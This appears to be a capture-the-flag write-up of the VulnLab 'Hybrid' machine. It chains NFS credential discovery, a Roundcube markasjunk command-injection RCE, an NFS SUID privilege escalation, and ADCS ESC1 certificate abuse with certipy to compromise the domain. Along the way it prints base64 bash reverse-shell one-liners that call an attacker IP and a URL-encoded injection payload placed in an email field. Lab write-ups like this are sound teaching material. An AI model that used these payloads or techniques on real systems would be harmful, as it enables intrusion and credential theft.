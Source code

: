 ```yaml
---
title: Hybrid
date: 2024-06-01 09:45:47 +07:00
modified: 2024-06-01 09:45:47 +07:00
tags: [ Hybrid, VulnLab, chain, ADCS, certipy, NFS, roundcube, SUID, no-root-squash, Writeup]
description: Hybrid is an &quot;easy&quot; difficulty machine, Where exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.
image: https://photos.squarezero.dev/file/abir-images/hybrid/logo.png
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)



<img src="https://photos.squarezero.dev/file/abir-images/hybrid/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Hybrid</font>

​		13<sup>th</sup> May 2024

​		Machine Author(s): [XCT](https://app.hackthebox.com/users/13569)

​		

### Description:

Hybrid is an &quot;easy&quot; difficulty machine, Where exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.

### Difficulty:

`Easy`


# Enumeration

I start with 2 IP addresses and nmap shows us the open ports.

```bash
PORT      STATE    SERVICE      
22/tcp    open     ssh
25/tcp    open     smtp
80/tcp    open     http
110/tcp   open     pop3
111/tcp   open     rpcbind      
143/tcp   open     imap
587/tcp   open     submission   
993/tcp   open     imaps        
995/tcp   open     pop3s        
1102/tcp  filtered adobeserver-1
2049/tcp  open     nfs
3024/tcp  filtered nds_sso
```

```bash
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc 
139/tcp   open  netbios-ssn     
445/tcp   open  microsoft-ds    
464/tcp   open  kpasswd5        
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
```

### Mail01.hybrid.vl

The NFS server is running on the mail server.

![](https://photos.squarezero.dev/file/abir-images/hybrid/01.png)

Mount NFS drive to check out important files.

`mkdir target-NFS`

`sudo mount -t nfs 10.10.209.54:/ ./target-NFS -o nolock`

![](https://photos.squarezero.dev/file/abir-images/hybrid/1.png)

I found credentials inside the tar file.

![](https://photos.squarezero.dev/file/abir-images/hybrid/2.png)

Inside I find 2 credentials

```bash
admin@hybrid.vl:{plain}Duc<snip>   
peter.turner@hybrid.vl:{plain}Pet<snip>
```

Login to the mail server using Admin credentials

![](https://photos.squarezero.dev/file/abir-images/hybrid/3.png)

The version of Roundcube is 1.6.1 and after some research, I found out it's vulnerable to code execution via Markasjunk plugin.

[SSD Advisory -  Roundcube markasjunk RCE - SSD Secure Disclosure](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/)

![](https://photos.squarezero.dev/file/abir-images/hybrid/4.png)



I need to bypass the filter to have code execution. One easy way to do it is to encode the reverse shell into base64 decode it and run it with bash. I can try this concept in our local machine first.

`echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMSc= | base64 -d | bash`

![](https://photos.squarezero.dev/file/abir-images/hybrid/5.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/6.png)



Under settings, I can change the email into our payload.

`admin%26echo${IFS}YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMQoK|base64${IFS}-d|bash%26%40hybrid.vl`



![](https://photos.squarezero.dev/file/abir-images/hybrid/7.png)

Intercept the request and url-encode the payload.

Note: Char Limit of 128 Also if the base64 string has ‘+’ it needs to be url-encoded.

![](https://photos.squarezero.dev/file/abir-images/hybrid/8.png)

Send an email to Peter.

![](https://photos.squarezero.dev/file/abir-images/hybrid/9.png)

Mark it as junk.

![](https://photos.squarezero.dev/file/abir-images/hybrid/10.png)

And I got a call back to my machine.

![](https://photos.squarezero.dev/file/abir-images/hybrid/11.png)

### www-date to Peter

I looked for a bit and couldn't find anything interesting. But I have both read-write options on the NFS drive.

![](https://photos.squarezero.dev/file/abir-images/hybrid/12.png)

First, I need to check Peter's UID and then I can create a user in our local attacker machine with the same UID as Peter.

```bash
www-data@mail01:~/roundcube$ id peter.turner@hybrid.vl
id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```

Now using this UID I created a user in my machine.

```bash
sudo adduser nfs_user     
sudo sed -i -e 's/1002/902601108/g' /etc/passwd
```

Next from www-data user, I transfer the bash file to the NFS drive and then move then using our new user I change the SUID of the bash and put it back to the NFS drive.

```bash
cp bash /tmp/        
share su nfs_user 
/target-NFS/opt/share$ cp /tmp/bash .
/target-NFS/opt/share$ chmod +xs bash
```

![](https://photos.squarezero.dev/file/abir-images/hybrid/13.png)

Now I can run commands as Peter.

![](https://photos.squarezero.dev/file/abir-images/hybrid/14.png)

`/opt/share/bash -p`

![](https://photos.squarezero.dev/file/abir-images/hybrid/15.png)

### Peter to Root

Inside Peter's home folder, I found a Keepass file and after transferring the file to my machine, I can log in using the password I found in the NFS drive previously.

![](https://photos.squarezero.dev/file/abir-images/hybrid/16.png)



With the new password, I can ssh into the machine as Peter And as Peter can run anything with sudo I can just use `sudo su` to log in as root.

![](https://photos.squarezero.dev/file/abir-images/hybrid/17.png)

### DC01.hybrid.vl

Peter's credentials are valid in the domain.

![](https://photos.squarezero.dev/file/abir-images/hybrid/18.png)

After running Bloodhound didn't find anything interesting.

`bloodhound-python -u 'peter.turner' -p 'b0cw<snip>' -ns 10.10.246.165 -d hybrid.vl -c all --auth-method auto --zip`

![](https://photos.squarezero.dev/file/abir-images/hybrid/19.png)

Next, I looked for certificate vulnerability using Certipy and it's vulnerable to ESC1

`certipy find -u 'peter.turner' -p 'b0cw<snip>' -dc-ip 10.10.134.197 -enabled -vulnerable -stdout`

![](https://photos.squarezero.dev/file/abir-images/hybrid/20.png)

As only domain joined computer can request I got the machine hash of the mail server.

https://github.com/sosdave/KeyTabExtract

**`/etc/krb5/krb5.`**

![](https://photos.squarezero.dev/file/abir-images/hybrid/21.png)

Now I can request pfx with the right length of RSA

```bash
certipy req -u 'mail01$'@hybrid.vl -hashes '0f916c52<snip>' -dc-ip 10.10.246.165 -ca hybrid-DC01-CA -template HybridComputers -upn ADMINISTRATOR@HYBRID.VL -key-size 4600
```

![](https://photos.squarezero.dev/file/abir-images/hybrid/22.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/23.png)

60701e8543c9f6db1a2af3217386d3dc

Using the PFX I can request for administrator hash and then log in to get the final flag. 

![](https://photos.squarezero.dev/file/abir-images/hybrid/025.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/25.png)

### Bonus.

I can also log in using the ticket.

`KRB5CCNAME=administrator.ccache  psexec.py -k -no-pass dc01.hybrid.vl`

![](https://photos.squarezero.dev/file/abir-images/hybrid/26.png)